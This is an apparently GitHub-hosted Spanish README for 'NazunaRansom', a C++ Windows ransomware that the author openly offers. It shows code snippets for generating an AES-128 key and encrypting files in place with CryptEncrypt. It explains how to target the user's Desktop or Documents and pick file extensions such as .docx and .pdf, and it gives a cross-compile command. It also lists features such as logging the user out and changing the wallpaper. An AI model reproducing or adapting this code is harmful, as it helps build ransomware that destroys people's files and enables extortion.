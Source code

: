 # NazunaRansom
Nazuna Ransomware v1 es un ransomware inspirado en mi waifu (Nazuna)

### Caracteristica

- Usa cifrado AES-128 en modo CBC
- Cierra la sesion del usuario
- Cambia el fondo de pantalla
- Cifra los subdirectorios de un directorio dado

### Funciones de cifrado

**CryptAcquireContext**

```c++
if (!CryptAcquireContext(&nazuna.hProv, NULL, MS_ENH_RSA_AES_PROV, PROV_RSA_AES, 0)) {
  if (!CryptAcquireContext(&nazuna.hProv, NULL, MS_ENH_RSA_AES_PROV, PROV_RSA_AES, CRYPT_NEWKEYSET)) {
    return false;
  }
}
```
En el primer if trata de obtener el identificador del contenedor CSP, ```nazuna.hProv``` funciona como un puntero que almacena el identificador CSP, si no se puede obtener el identifcador se vuelva a llamar a ```CryptAcquireContext``` con ```CRYPT_NEWKEYSET``` para crear un contenedor de claves en CSP

**CryptGenKey**

```c++
CryptGenKey(nazuna.hProv, CALG_AES_128, CRYPT_EXPORTABLE, &nazuna.hkey);
```
Genera una key AES-128 de acuerdo al identificador del CSP y la key la almacena en ```nazuna.hkey```

**CryptEncrypt**

```c++
CryptEncrypt(nazuna.hkey, 0, true, 0, buf, &bytes_leer, BUF_LEN);
```
Cifra los datos de acuerdo al CSP, ```buf``` es un puntero al buffer datos que contiene los datos que se van a cifrar, ```bytes_leer``` es la cantidad de bytes que se van a cifrar, que son los bytes del archivo original, esta funcion tambien funcionara para que el buffer cifrado se sobreescriba por el original 

### Modificaciones

Dentro de la funcion ```recorrer_dir``` puedes especificar las extensiones que quieres que se cifren:

```c++
if (extension == ".txt" || extension == ".cpp" || extension == ".pdf" || extension == ".docx" || extension == ".xlsx")
```

En la funcion ```main``` puedes especificar otro directorio que se va a cifrar

```c++
string ruta = filesystem::path(string(getenv("USERPROFILE")) + "\\Desktop").string();
```
Solo modifica ```Desktop``` por otra, ej: ```Documents```

### Compilado
Yo lo compile desde GNU/Linux con el comando

```bash
x86_64-w64-mingw32-g++ -o NazunaRansom NazunaRansom.cpp -lbcrypt -static -static-libgcc -static-libstdc++ -lurlmon
```
